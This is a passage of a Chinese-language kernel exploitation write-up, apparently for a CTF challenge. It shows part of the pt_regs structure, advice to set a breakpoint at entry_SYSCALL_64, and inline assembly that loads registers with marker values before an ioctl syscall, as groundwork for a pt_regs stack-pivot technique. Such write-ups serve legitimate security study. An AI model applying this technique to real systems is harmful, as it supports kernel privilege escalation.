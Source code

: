 ```c
    unsigned long orig_rax;
/* Return frame for iretq */
    unsigned long rip;
    unsigned long cs;
    unsigned long eflags;
    unsigned long rsp;
    unsigned long ss;
/* top of stack page */
};
```

可以利用如下 `exp`查看 `pt_regs` 结构体和设置某些未被题目 `ioctl`特殊设置的寄存器来实施栈迁移操作。

调试时可以在 `entry_SYSCALL_64`函数处下断点，随后通过系统调用表跳转到对应的函数。

```c
target =  0xffff888000000000 + 0x6000000;
__asm__(
    "mov r15,   0xbeefdead;"
    "mov r14,   0x11111111;"
    "mov r13,   0x22222222;"
    "mov r12,   0x33333333;"
    "mov rbp,   0x44444444;"
    "mov rbx,   0x55555555;"
    "mov r11,   0x66666666;"
    "mov r10,   0x77777777;"
    "mov r9,    0x88888888;"
    "mov r8,    0x99999999;"
    "xor rax,   rax;"
    "mov rcx,   0xaaaaaaaa;"
    "mov rdx,   0x10;" //ioctl
    "mov rsi,   0x1BF52;" //cmd
    "mov rdi,   fd;"  
    "syscall"
);
```
